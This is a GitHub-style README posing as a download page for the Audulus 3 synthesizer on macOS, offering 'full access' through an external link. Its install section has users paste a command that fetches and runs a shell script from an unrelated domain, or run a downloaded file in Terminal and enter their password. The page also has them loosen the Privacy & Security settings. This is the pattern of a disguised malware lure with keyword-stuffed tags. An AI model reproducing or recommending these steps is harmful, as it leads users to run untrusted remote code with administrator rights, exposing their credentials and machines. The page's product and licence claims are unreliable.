 <p align="center">
  <img src="https://i.ibb.co/20rjDj3k/1684163388-icon.webp" alt="Audulus 3 macOS Banner" />
</p>

<h1 align="center">Audulus 3 for macOS</h1>

<p align="center">
  🎛️ Modular audio designer and synthesizer lab for macOS. Patch live, build instruments, and explore sound visually.  
  <br><br>
  ✅ Native Apple Silicon & Intel support  
  ✅ Works on macOS Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/175" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20AUDULUS%203%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Audulus 3 for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/wZSWY3JQ/1684163403-2.webp" alt="Audulus 3 Modular Patch Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Audulus 3?

**Audulus 3** is a modular audio environment for macOS, ideal for sound designers, synth enthusiasts, and experimental musicians. With a sleek node-based interface, it allows you to patch oscillators, filters, effects, and control signals visually — and hear the results in real time.

Whether you're building a granular synth, creating audio effects, or just exploring sound, Audulus gives you the freedom to design, experiment, and iterate without limits.

It runs natively on **Apple Silicon (M1/M2/M3)** and performs smoothly on **macOS Sonoma**, **Ventura**, and **Monterey**.

---

## ✅ Why Choose Audulus 3?

- 🎚️ **Modular Signal Flow Designer**  
- 🔊 **Real-Time Patch Editing**  
- 💡 **Visual Programming for Audio**  
- 🎛️ **Synths, Effects, and Utilities**  
- 📦 **Load Custom Modules & Patches**  
- ⚙️ **Supports MIDI & External Input**  
- 🖥️ **High-Performance macOS Native App**  
- 🧪 **Perfect for Sound Design & DSP Learning**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/n8DJnbzb/1684163404-1.webp" alt="Audulus 3 Node Editor Screenshot" />
  <br><br>
  <img src="https://i.ibb.co/jPgY6wC5/1684163405-4.webp" alt="Audulus 3 Audio Routing View Screenshot" />
</p>

---

## 🚀 Key Features

- Drag-and-drop patching interface  
- Modular synth engine  
- Custom module building  
- Real-time DSP visualization  
- MIDI controller support  
- Fast node search and filtering  
- Audio Units hosting  
- Offline use and zero background sync

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:
- Go to **System Settings > Privacy & Security**  
- Allow Audulus 3 under "App Management"

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Category-Modular+Synth+Designer-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Interface-Visual+Node+Patch+System-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Audulus 3 – Sound, Visually Engineered

Thanks for using **Audulus 3 for macOS**.  
Design audio tools, synths, and effects the visual way.

---

## 🧭 Usage Context

Audulus 3 is a standalone modular DSP environment for audio exploration and instrument design.  
No syncing, telemetry, or online accounts required.

Patches remain fully local.  
This tool is not affiliated with Apple or commercial DAWs.

---

## 🔍 Tags

```text
audulus 3 for mac download, modular synth builder macos audulus, download audulus visual dsp mac, audulus node patch synth mac, apple silicon modular synth mac, realtime dsp environment mac audulus, best modular audio editor macbook, audulus m1 m2 sound design app, visual audio programming macos tool, audulus offline synth designer mac, download audulus 3 full mac version, mac patch-based modular audio tool, experimental sound editor audulus mac, granular synthesis app mac audulus, audio signal chain builder mac
